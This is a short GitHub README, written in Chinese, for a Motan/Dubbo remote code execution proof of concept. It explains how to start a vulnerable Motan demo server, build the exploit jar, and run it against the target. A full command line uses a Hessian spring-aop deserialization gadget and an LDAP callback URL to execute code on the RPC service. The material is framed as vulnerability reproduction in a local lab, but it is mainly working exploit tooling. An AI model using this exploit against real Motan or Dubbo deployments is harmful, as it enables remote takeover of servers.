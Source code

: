 
# Motan/dubbo-rce

## 前言
将Motan远程代码执行poc封装进threedr3am/learnjavabug项目中

## 快速利用

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务（漏洞靶场）

2. **编译rpc-rce：mvn clean package （jdk8+mvn3.2.5）**
```
java -jar dubbo-exp-1.0-SNAPSHOT-jar-with-dependencies.jar --target 127.0.0.1:8002 --protocol motan --serialization hessian  --gadget spring-aop --arg ldap://127.0.0.1:9988
```
![](https://github.com/zhzhdoai/Motan-rce/blob/master/poc.png)

## 漏洞复现

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务


2. **motan-demo/motan-demo-client/src/main/java/com/weibo/motan/demo/client/AnnotationRpcClientDemo.java** 运行攻击服务


# 鸣谢
rpc-rce框架拉取threedr3am/learnjavabug:https://github.com/threedr3am/learnjavabug.git

